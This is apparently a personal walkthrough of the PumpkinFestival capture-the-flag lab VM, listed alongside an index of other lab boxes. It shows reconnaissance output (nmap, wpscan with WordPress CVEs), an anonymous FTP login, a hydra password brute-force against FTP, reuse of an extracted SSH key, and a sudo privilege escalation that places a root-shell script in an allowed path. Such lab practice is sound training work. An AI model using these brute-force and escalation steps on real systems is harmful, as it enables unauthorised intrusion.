Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
PumpkinFestival
> It says the IP in the VirtualBox session
crazyeights@kali:~$ ping 172.19.210.8
PING 172.19.210.8 (172.19.210.8) 56(84) bytes of data.
64 bytes from 172.19.210.8: icmp_seq=1 ttl=64 time=0.289 ms
64 bytes from 172.19.210.8: icmp_seq=2 ttl=64 time=0.254 ms
64 bytes from 172.19.210.8: icmp_seq=3 ttl=64 time=0.248 ms
^C
crazyeights@kali:~$ sudo nmap -A 172.19.210.8
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-09 18:07 EDT
Nmap scan report for ad10-210-8.resnet.carleton.ca (172.19.210.8)
Host is up (0.00020s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x 2 0 0 4096 Jul 12 22:26 secret
| ftp-syst:
| STAT:
| FTP server status:
| Connected to 172.19.211.207
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.2 - secure, fast, stable
|_End of status
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 4 disallowed entries
|_/wordpress/ /tokens/ /users/ /store/track.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Mission-Pumpkin
MAC Address: 08:00:27:FA:92:8E (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
TRACEROUTE
HOP RTT ADDRESS
1 0.20 ms ad10-210-8.resnet.carleton.ca (172.19.210.8)
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.49 seconds
crazyeights@kali:~$

RAN SKIPFISH:
crazyeights@kali:~$ skipfish -o mission_pumpkin -S /usr/share/skipfish/dictionaries/minimal.wl http://172.19.210.8:80




On the index page in a comment: Harry, FInd the Pumpkin
crazyeights@kali:~$ ftp 172.19.210.8
Connected to 172.19.210.8.
220 Welcome to Pumpkin's FTP service.
Name (172.19.210.8:crazyeights): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x 2 0 0 4096 Jul 12 22:26 secret
226 Directory send OK.
ftp> cat secret
?Invalid command
ftp> cd secret
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 0 0 48 Jul 12 22:27 token.txt
226 Directory send OK.
ftp> cat token.txt
?Invalid command
ftp> echo token.txt
?Invalid command
ftp> get token.txt
local: token.txt remote: token.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for token.txt (48 bytes).
226 Transfer complete.
48 bytes received in 0.02 secs (2.4617 kB/s)
ftp>



crazyeights@kali:~$ wpscan --url pumpkins.local -e u
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.6.3
Sponsored by Sucuri - https://sucuri.net
@_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________
[i] Updating the Database ...
[i] Update completed.
[+] URL: http://pumpkins.local/
[+] Started: Mon Sep 9 19:28:16 2019
Interesting Finding(s):
[+] http://pumpkins.local/
| Interesting Entries:
| - Server: Apache/2.4.7 (Ubuntu)
| - X-Powered-By: PHP/5.5.9-1ubuntu4.29
| Found By: Headers (Passive Detection)
| Confidence: 100%
[+] http://pumpkins.local/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
| - http://codex.wordpress.org/XML-RPC_Pingback_API
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
| - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access
[+] http://pumpkins.local/readme.html
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] Registration is enabled: http://pumpkins.local/wp-login.php?action=register
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] Upload directory has listing enabled: http://pumpkins.local/wp-content/uploads/
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] http://pumpkins.local/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
| - https://www.iplocation.net/defend-wordpress-from-ddos
| - https://github.com/wpscanteam/wpscan/issues/1299
[+] WordPress version 4.9.3 identified (Insecure, released on 2018-02-05).
| Detected By: Rss Generator (Passive Detection)
| - http://pumpkins.local/?feed=rss2, <generator>https://wordpress.org/?v=4.9.3</generator>
| - http://pumpkins.local/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.9.3</generator>
|
| [!] 15 vulnerabilities identified:
|
| [!] Title: WordPress <= 4.9.4 - Application Denial of Service (DoS) (unpatched)
| References:
| - https://wpvulndb.com/vulnerabilities/9021
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389
| - https://baraktawily.blogspot.fr/2018/02/how-to-dos-29-of-world-wide-websites.html
| - https://github.com/quitten/doser.py
| - https://thehackernews.com/2018/02/wordpress-dos-exploit.html
|
| [!] Title: WordPress 3.7-4.9.4 - Remove localhost Default
| Fixed in: 4.9.5
| References:
| - https://wpvulndb.com/vulnerabilities/9053
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10101
| - https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
| - https://github.com/WordPress/WordPress/commit/804363859602d4050d9a38a21f5a65d9aec18216
|
| [!] Title: WordPress 3.7-4.9.4 - Use Safe Redirect for Login
| Fixed in: 4.9.5
| References:
| - https://wpvulndb.com/vulnerabilities/9054
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10100
| - https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
| - https://github.com/WordPress/WordPress/commit/14bc2c0a6fde0da04b47130707e01df850eedc7e
|
| [!] Title: WordPress 3.7-4.9.4 - Escape Version in Generator Tag
| Fixed in: 4.9.5
| References:
| - https://wpvulndb.com/vulnerabilities/9055
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10102
| - https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
| - https://github.com/WordPress/WordPress/commit/31a4369366d6b8ce30045d4c838de2412c77850d
|
| [!] Title: WordPress <= 4.9.6 - Authenticated Arbitrary File Deletion
| Fixed in: 4.9.7
| References:
| - https://wpvulndb.com/vulnerabilities/9100
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12895
| - https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/
| - http://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility-Exploit/
| - https://github.com/WordPress/WordPress/commit/c9dce0606b0d7e6f494d4abe7b193ac046a322cd
| - https://wordpress.org/news/2018/07/wordpress-4-9-7-security-and-maintenance-release/
| - https://www.wordfence.com/blog/2018/07/details-of-an-additional-file-deletion-vulnerability-patched-in-wordpress-4-9-7/
|
| [!] Title: WordPress <= 5.0 - Authenticated File Delete
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9169
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20147
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
|
| [!] Title: WordPress <= 5.0 - Authenticated Post Type Bypass
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9170
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20152
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
| - https://blog.ripstech.com/2018/wordpress-post-type-privilege-escalation/
|
| [!] Title: WordPress <= 5.0 - PHP Object Injection via Meta Data
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9171
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20148
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
|
| [!] Title: WordPress <= 5.0 - Authenticated Cross-Site Scripting (XSS)
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9172
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20153
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
|
| [!] Title: WordPress <= 5.0 - Cross-Site Scripting (XSS) that could affect plugins
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9173
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20150
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
| - https://github.com/WordPress/WordPress/commit/fb3c6ea0618fcb9a51d4f2c1940e9efcd4a2d460
|
| [!] Title: WordPress <= 5.0 - User Activation Screen Search Engine Indexing
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9174
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20151
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
|
| [!] Title: WordPress <= 5.0 - File Upload to XSS on Apache Web Servers
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9175
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20149
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
| - https://github.com/WordPress/WordPress/commit/246a70bdbfac3bd45ff71c7941deef1bb206b19a
|
| [!] Title: WordPress 3.7-5.0 (except 4.9.9) - Authenticated Code Execution
| Fixed in: 4.9.9
| References:
| - https://wpvulndb.com/vulnerabilities/9222
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8942
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8943
| - https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/
| - https://www.rapid7.com/db/modules/exploit/multi/http/wp_crop_rce
|
| [!] Title: WordPress 3.9-5.1 - Comment Cross-Site Scripting (XSS)
| Fixed in: 4.9.10
| References:
| - https://wpvulndb.com/vulnerabilities/9230
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9787
| - https://github.com/WordPress/WordPress/commit/0292de60ec78c5a44956765189403654fe4d080b
| - https://wordpress.org/news/2019/03/wordpress-5-1-1-security-and-maintenance-release/
| - https://blog.ripstech.com/2019/wordpress-csrf-to-rce/
|
| [!] Title: WordPress <= 5.2.2 - Cross-Site Scripting (XSS) in URL Sanitisation
| Fixed in: 4.9.11
| References:
| - https://wpvulndb.com/vulnerabilities/9867
| - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
| - https://github.com/WordPress/WordPress/commit/30ac67579559fe42251b5a9f887211bf61a8ed68
[+] WordPress theme in use: twentyseventeen
| Location: http://pumpkins.local/wp-content/themes/twentyseventeen/
| Last Updated: 2019-05-07T00:00:00.000Z
| Readme: http://pumpkins.local/wp-content/themes/twentyseventeen/README.txt
| [!] The version is out of date, the latest version is 2.2
| Style URL: http://pumpkins.local/wp-content/themes/twentyseventeen/style.css?ver=4.9.3
| Style Name: Twenty Seventeen
| Style URI: https://wordpress.org/themes/twentyseventeen/
| Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
| Author: the WordPress team
| Author URI: https://wordpress.org/
|
| Detected By: Css Style (Passive Detection)
|
| Version: 1.4 (80% confidence)
| Detected By: Style (Passive Detection)
| - http://pumpkins.local/wp-content/themes/twentyseventeen/style.css?ver=4.9.3, Match: 'Version: 1.4'
[+] Enumerating Users (via Passive and Aggressive Methods)
Brute Forcing Author IDs - Time: 00:00:00 <==> (10 / 10) 100.00% Time: 00:00:00
[i] User(s) Identified:
[+] admin
| Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Confirmed By: Login Error Messages (Aggressive Detection)
[+] morse
| Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Confirmed By: Login Error Messages (Aggressive Detection)
[+] Finished: Mon Sep 9 19:28:18 2019
[+] Requests Done: 71
[+] Cached Requests: 7
[+] Data Sent: 14.172 KB
[+] Data Received: 24.839 MB
[+] Memory used: 115.078 MB
[+] Elapsed time: 00:00:01
crazyeights@kali:~$

Navigate to:
http://pumpkins.local/wp-login.php?action=register
Remove: action=register
username: admin
password: Alohomora!


hydra -e nsr -l harry -P /usr/share/wordlists/rockyou.txt pumpkins.local ftp -F
ftp pumpkins.local
uname: harry
password: yrrah
--> token:
token.txt
---> token:
cd NOOOO
token.txt
--> data
get data.txt
tar -xvf data.txt
bunzip2 data
repeat until file: jack
jack contains hex fata in ascii:
cat jack | xclip -selection clipboardconvert from hex to ascii
--> is an openssh private key
paste in text file jackkey
chmod 600 jackkeyssh -i jackkey jack@10.133.1.3 -p 6880file token in home directory:
is an exec file, run it
./token to get last token
The tracking code on /store/track.txt is encoded base62
Tracking code : 2542 8231 6783 486
Returns:
morse & jack : Ug0t!TrIpyJ --> root password for morse and jack
---> sudo -l in ssh

that any file I execute that starts with
alohomora and is located in the /home/jack/pumpkins folder will be run with root privileges. create file alohomora
#!/bin/bash
su -
chmod +x alohomora